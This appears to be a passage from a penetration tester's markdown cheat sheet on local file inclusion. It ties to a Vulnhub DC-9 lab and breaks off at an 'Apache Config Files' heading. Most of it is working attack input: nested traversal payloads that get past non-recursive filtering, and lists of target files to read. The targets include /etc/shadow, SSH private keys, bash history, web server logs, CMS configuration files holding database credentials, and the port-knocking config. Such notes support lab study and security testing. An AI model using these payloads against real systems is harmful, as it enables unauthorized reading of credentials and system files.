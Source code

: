## Nesting traversal sequences
- Works when input sanitization is not done recursively
	```
	....//..//..//..//..//etc//passwd
	....\/..\/..\/..\/..\/etc\/passwd
	..../\../\../\../\../\etc/\passwd
	....\\..\\..\\..\\..\\..\\etc\\paswd
	```

## Obtain Running Processes of Machine
```
/proc/sched_debug
cat sched_debug | awk '{print $2}' | sort -u 
```
- Some Examples:
	- [Vulnhub DC 9 - Include sched_debug](https://youtu.be/_Aa8125CQ0g?t=3595)


## Files to Include - Linux
- Standard files
	```
	/etc/passwd
	/proc/self/cmdline
	/proc/sched_debug
	/etc/shadow
	/etc/issue
	/etc/group
	/etc/hostname
	/home/user/.ssh/id_rsa
	/home/user/bash_history
	/usr/local/etc/apache22/httpd.conf
	```
- Log files
	```
	/var/log/apache/access.log
	/var/log/apache2/access.log
	/var/log/httpd/access_log
	/var/log/apache/error.log
	/var/log/apache2/error.log
	/var/log/httpd/error_log
	/var/log/mail.log
	/var/log/maillog
	/var/log/vsftpd.log
	/var/log/auth.log
	```
- CMS Config Files
	```
	WordPress: /var/www/html/wp-config.php
	Joomla: /var/www/configuration.php
	Dolphin CMS: /var/www/html/inc/header.inc.php
	Drupal: /var/www/html/sites/default/settings.php
	Mambo: /var/www/configuration.php
	PHPNuke: /var/www/config.php
	PHPbb: /var/www/config.php
	```
- Check port knocking sequence 
	```
	/etc/knockd.conf
	```
	- [[DC9#Port 80 HTTP - LFI]]
- Apache Config Files
	```
